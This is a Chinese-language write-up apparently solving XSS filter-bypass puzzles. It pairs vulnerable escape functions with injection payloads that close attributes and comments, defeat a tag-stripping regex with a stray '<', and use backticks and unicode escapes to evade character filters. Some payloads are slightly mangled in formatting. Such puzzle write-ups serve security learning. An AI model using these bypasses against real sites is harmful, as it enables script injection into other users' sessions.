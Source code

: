 **闭合标签**  
  
常规闭合，通过各种方式，闭合前面的语句。  
```
function escape(input) {
// warm up
// script should be executed without user interaction
return ‘<input type=”text” value=”‘ + input + ‘”>’;
}
“><script>alert(1);script>
```  
  
  
**双写半开括号**  
```
function escape(input) {
// tags stripping mechanism from ExtJS library
// Ext.util.Format.stripTags
var stripTagsRE = /<\/?[^>]+>/gi;
input = input.replace(stripTagsRE, ”);
return ‘<article>’ + input + ‘</article>’;
}
```  
  
  
以上代码中正则会处理尖括号和尖括号中的内容，将其替换成空。所以可以使用双写半开括号”<<“绕过:  
```
<img src=1 onerror=”prompt(1)”<
```  
  
  
**反引号+编码**  
```
function escape(input) {
// v– frowny face
input = input.replace(/[=(]/g, ”);
// ok seriously, disallows equal signs and open parenthesis
return input;
}
```  
  
  
以上代码对等号和左括号进行过滤，所以使用反引号代替括号，在通过编码解决。  
  
<script>setTimeoutprompt\u00281\u0029;</script>  
  
**闭合注释**  
```
function escape(input) {
// filter potential comment end delimiters
input = input.replace(/->/g, ‘_’);
// comment the input to avoid script execution
return ‘<!– ‘ + input + ‘ –>’;
}
```  
  
  
以上代码将输出的内容放在注释中，且对->做了替换处理。所以html可以–>或–!>闭合注释  
```
–!><script>prompt(1)</script>
```  
  